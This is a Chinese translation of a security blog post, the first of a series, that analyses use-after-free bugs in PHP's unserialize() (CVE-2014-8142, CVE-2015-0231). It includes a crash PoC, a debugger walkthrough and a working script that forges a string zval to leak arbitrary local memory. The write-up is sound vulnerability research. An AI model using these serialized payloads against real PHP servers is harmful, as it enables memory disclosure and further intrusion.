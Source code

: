 # PHP中的内存破坏漏洞利用（CVE-2014-8142和CVE-2015-0231）（连载之第一篇）

0x00 前言
=====

作者：Cigital公司的安全顾问Qsl1pknotp

题目：Exploiting memory corruption bugs in PHP (CVE-2014-8142 and CVE-2015-0231) Part 1

地址：http://www.inulledmyself.com/2015/02/exploiting-memory-corruption-bugs-in.html

很多人都认为，对基于Web的应用程序来说，内存崩溃类bug不是什么严重问题。尤其现在XSS和SQL注入类漏洞仍然大行其事的情况下，不会有多少注意力投入到这类bug中，它们会被当做“不可利用”或者被直接无视。然而，假如攻击成功，利用这类漏洞进行攻击所导致的结果将远远超出SQL注入以及XSS，因为：

```
1. 攻击者将得到有保证的系统访问权。
2. 将会很难识别恶意攻击数据流量。
3. 需要维护者/供应商提供专门补丁，并且只能希望修补得没有问题。

```

接下来笔者将发表三篇该系列攻击的文章，本文是其中的首篇。该系列将从CVE-2014-8142的利用开始讲起、然后是远程任意信息泄露、最后以获取PHP解释器的控制权结束。Stefan Esser（@i0n1c）是这两个CVE的原作者，并且是在2010年Syscan上第一个讲解如何控制PHP解释器（被称为“ret2php”）的。

0x01 漏洞起源
=====

这一切都始于2004年，Esser在unserialize()函数中发现的一个Use After Free漏洞。这是一个Hardened-PHP（译者注：如果项目中，服务器的安全性是最重要的，就可以称为是Hardened-PHP）项目的一部分，没有任何代码公开。2010年，Esser又在SPLObjectStorage的unserialize()中发现另一个User After Free，这个漏洞直接产生了Syscan会上的一个发言，跟第一次漏洞一样，本次也没有代码公开。最后，CVE-2014-8142被发现，又被打补丁，但是因为补丁没打好，又导致了CVE-2015-0231。

幸运的是，这次Stefan终于给出了一个可令PHP解释器产生故障的POC。下面的代码就会导致有此漏洞的PHP解释器出现问题。

```
<?php
for ($i=4; $i<100; $i++) {
  var_dump($i);

  $m = new StdClass(); 
  $u = array(1); 
  $m->aaa = array(1,2,&$u,4,5);

  $m->bbb = 1;
  $m->ccc = &$u;
  $m->ddd = str_repeat("A", $i); 
  $z = serialize($m);
  $z = str_replace("bbb", "aaa", $z);

  var_dump($z);

  $y = unserialize($z);

  var_dump($y);
}
?>

```

source:[StefanEsser_Original_POC](https://gist.github.com/tmm08a/d07bfcb4eca90a6d3926#file-stefanesser_original_poc)

0x02 漏洞分析利用
=====

下面来解释下POC是如何工作的：我们通过重新添加“aaa”对象的值（不同值），来更新对象“aaa”，然而“ccc”对象其实还是指向原始“aaa”对象中的某一个值。

既然我们已经在顶层实现上知道了它的工作原理，接下来就让我们一起试着找到问题的罪魁祸首吧。我们在process_nested_data函数中寻找，快速浏览一下，会发现一段特定的代码：

![enter image description here](http://drops.javaweb.org/uploads/images/eff4aad082d307c26baac980d5d88556d26ff54d.jpg)

让我们一起跟进脚本中来确定真正发生了什么。我们将断点断在var_unserializer.c的第337行来看一下（此处位于process_nested_data函数内）。

![enter image description here](http://drops.javaweb.org/uploads/images/98c0810855eb7c8c7655f37693d7bd1b7c473330.jpg)

继续运行，跟过下面的代码：

```
<?php
$data ='O:8:"stdClass":3:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;s:39:"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;}';
$x = unserialize($data);
var_dump($x);
?>

```

source:[StefanEsser_Original_LocalMemLeak.php](https://gist.github.com/tmm08a/686d3f78a44c8ea80fd0#file-stefanesser_original_localmemleak-php)

运行上面的脚本，断点第一次命中时跳过，第二次命中时，执行下面的查看命令：

```
printzv *(var_entries)var_hash->first

```

![enter image description here](http://drops.javaweb.org/uploads/images/0df3a27edffc4cfce82e6953aab8c900d5e1f8e0.jpg)

可以看到地址的一个数组，这些地址指向unserialize()函数解析的变量值。我们感兴趣的是第五个0xb7bf87c0（我们上面php代码中用的是R:5）。既然已经得到地址，我们就去看一下内容，然后步过该断点并继续运行。

![enter image description here](http://drops.javaweb.org/uploads/images/aee8ce0c4637739263a5c30c656976ccc4bc9222.jpg)

已经调用完该可疑函数，接下来重新看一下刚才我们选定的地址中出现了什么内容：

![enter image description here](http://drops.javaweb.org/uploads/images/df14a2fdf74e63f86ff67033d3f54745ab054dcc.jpg)

成功搞定！当然，还需要确认下该地址是否还在var_hash表中，然后继续运行。

![enter image description here](http://drops.javaweb.org/uploads/images/f2a40f706efda59c3e88c3bc842dc06c2fbddec1.jpg)

果然还在，继续：

![enter image description here](http://drops.javaweb.org/uploads/images/692c664214aa98a77b5213e78044a4ac6824c1ac.jpg)

Sweet！已经可以泄露前面地址中的数据了。我们现在已经可以成功泄露出之前所提供字串的长度，但这其实没什么意思。那么能不能泄露出任意内存数据呢？下面就是你想要的代码：

```
<?php

$fakezval = pack(
    'IIII',     //unsigned int
    0x08048000, //address to leak
    0x0000000f, //length of string
    0x00000000, //refcount
    0x00000006  //data type NULL=0,LONG=1,DOUBLE=2,BOOL=3,ARR=4,OBJ=5,STR=6,RES=7
);
//obj from original POC by @ion1c
$obj = 'O:8:"stdClass":4:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;a:1:{i:0;i:1;}i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;s:3:"ddd";s:4:"AAAA";}';
$obj=unserialize($obj);

for($i = 0; $i < 5; $i++) { //this i value is larger than usually required
    $v[$i]=$fakezval.$i; //repeat to overwrite
}
//due to the reference being overwritten by our loop above, leak memory
echo $obj->ccc;
?>

```

source:[PHPLeak](https://gist.github.com/tmm08a/4c3130001a258e45d39f#file-phpleak)

下面是输出数据：

![enter image description here](http://drops.javaweb.org/uploads/images/69e24c51b4c0078e71c52104efc4382ff3778332.jpg)

我们这里做的操作是非常简单的（希望是）。我们创建自己的ZVAL（PHP使用的内部数据结构）数据结构。我们定义了几个东西，使pack（）函数获取我们的代码执行。按照顺序，它们是：

```
类型（例子中用的是unsigned int）
地址（我们想要泄露的地址）
长度（我们想要泄露内存的长度）
参考标志（0）
数据类型（6，代表String类型）

```

当然，如果我们没有伪造一个string ZVAL结构，这些值是会变化的。代码中的for循环是真正执行内存覆盖操作（覆盖之前释放掉的内存），这些操作使我们得到上述的输出数据。代码中我令循环数$i的值大于其所需的值，只是用以确保代码的通用性，当然我测试过的大多数机器只需要2次就可以了，不需要执行5次。

好了，现在已经可以泄露随意地址数据了，让我们再一起看看CVE-2015-0231？很简单：只需将“aaa”替换成“123”，看一下输出的数据：

![enter image description here](http://drops.javaweb.org/uploads/images/ef6c600b1fb40b97ea6d4fe052e3d217abe478de.jpg)

0x03 下一步研究
=====

通过上述过程，我们已经完成了一个可在本地泄露任意内存地址数据的POC，且该POC同时适用于两个CVE漏洞的。我们下一步目标是仍然是数据泄露，所不同的是，将会是远程数据泄露！

敬请期待第二回，远程数据泄露！